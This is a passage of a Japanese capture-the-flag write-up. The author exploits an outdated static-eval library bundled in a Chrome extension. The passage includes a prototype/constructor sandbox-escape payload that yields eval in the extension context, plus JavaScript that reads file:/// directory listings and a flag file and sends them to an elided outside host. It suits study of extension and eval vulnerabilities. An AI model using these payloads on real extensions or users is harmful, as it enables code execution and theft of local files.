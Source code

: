 コードからは見つけられませんでしたが、`js/background.js` に含まれていた  `package.json` らしきオブジェクトに `_requiredBy: ["/static-eval"],` という記述があり、[static-eval](https://github.com/browserify/static-eval) というライブラリのコードであることがわかりました。

フラグメント識別子を数値や文字列に変換するために安全な `eval` の代替として使おうとしているようですが、`README.md` を読むと

> static-eval is like eval. It is intended for use in build scripts and code transformations, doing some evaluation at build time—it is **NOT** suitable for handling arbitrary untrusted user input. Malicious user input can execute arbitrary code.

とそのような使い方は推奨されていないことがわかります。具体的にどのような問題があるのかプルリクを見ていると、[`__proto__` や `constructor` へのアクセスを不可能にするプルリク](https://github.com/browserify/static-eval/pull/27)が見つかりました。これでサンドボックスからの脱出ができたりしたのでしょうか。

`js/background.js` に含まれていたコードと比較すると、このプルリクで修正された処理は追加されておらず、これ以前のバージョンであることがわかります。このプルリクには[テストが含まれています](https://github.com/browserify/static-eval/blob/a18a308120ac7d5bc974292a8eefb3dfc0649f61/test/eval.js#L114)から、これが有効か試してみましょう。

`/read?id=42#(function(x){return''[!x?'__proto__':'constructor'][x]})('constructor')('alert(1)')()` にアクセスしてみるとアラートが表示されました。`alert(1)` を `alert(location)` に変えると `chrome-extension://` から始まる URL が表示されたので、Chrome 拡張のコンテキストで `eval` 相当のことができているようです。やった!

それでは、フラグが置かれているパスを探しましょう。Chrome 拡張のコンテキストでは、`manifest.json` で確認したとおり `file://` から始まる URL にも XHR などでアクセスできることを利用して、`file:///` でルートディレクトリにあるファイルとディレクトリを取得しましょう。

まず、以下のような内容の記事を投稿します。

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'file:///');
xhr.onload = function() {
  var fs = xhr.responseText.match(/addRow\("(.+?)"/g).map(x => x.slice(8, -1));
  (new Image).src = 'https://(省略)?' + encodeURIComponent(fs);
};
xhr.send();
```

`/read?id=(記事の ID)#(function(x){return''[!x?'__proto__':'constructor'][x]})('constructor')('String.prototype.split=function(){eval(String(this));return[this]}')()` にアクセスすると `String.prototype.split` が `this` を `eval` するものに置き換えられ、英数字以外の文字で区切るときの処理で記事の内容が `eval` されるはずです。URL を `/report` から報告すると以下のような HTTP リクエストが来ました。

```
6339e914b333b35d902a2dfd2c415656,bin,boot,dev,etc,home,lib,lib64,media,mnt,opt,proc,root,run,sbin,srv,sys,tmp,usr,var,_dockerenv
```

`6339e914b333b35d902a2dfd2c415656` が怪しそうです。XHR で開く URL を `file:///6339e914b333b35d902a2dfd2c415656/` に変えます。

```
flag
```

`/6339e914b333b35d902a2dfd2c415656/flag` にフラグがありそうです。これを取得するような処理を書きます。

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'file:///6339e914b333b35d902a2dfd2c415656/flag');
xhr.onload = function() {
  (new Image).src = 'https://(省略)?' + encodeURIComponent(xhr.responseText);
};
xhr.send();
```
